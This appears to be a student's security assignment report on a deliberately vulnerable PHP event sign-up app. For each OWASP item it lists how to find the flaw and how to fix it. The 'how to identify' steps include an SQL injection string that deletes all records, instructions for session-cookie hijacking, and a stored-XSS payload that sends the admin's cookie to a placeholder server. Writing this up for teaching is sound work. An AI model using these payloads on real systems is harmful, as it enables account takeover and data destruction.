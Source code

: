 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with the code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1

### How to identify 
Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ```' OR '1'='1```. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) would also fix the problem in this case.
## A2
a) Guessable fixed admin credentials (admin/password), which are stored in the source code (login.php) with no encryption.<br> 
b) The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection. You can see them with OWASP ZAP.

### How to identify (broken session management)
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on):

1. Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
2. Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
3. Re-enter the Admin page (do not only reload), and you’re in without entering credentials!

Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.

### How to fix
Use SSL for the website (see the GitHub Readme)! 

Besides that, the session could be re-generated and the old one destroyed with some intervals. And the session could be made to timeout sooner.  The “secure” and “path” parameters could be used for the session cookie (+ httponly to defend against A3).<br>
The admin credentials could be stored in the database with the password salted + hashed. The admin should be able to change (at least) the password. 

## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify (stored XSS)
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
Html codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

### How to identify
Capture the (imaginary) credit card numbers using OWASP ZAP.

### How to fix: 
Again, use SSL! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard<br>
Regarding the session cookie and admin credentials, see the A2-fix.

## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
### How to fix
Deny access to the config.ini file, in one way or another. 

There is actually already a .htaccess in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:<br>
  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change the “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
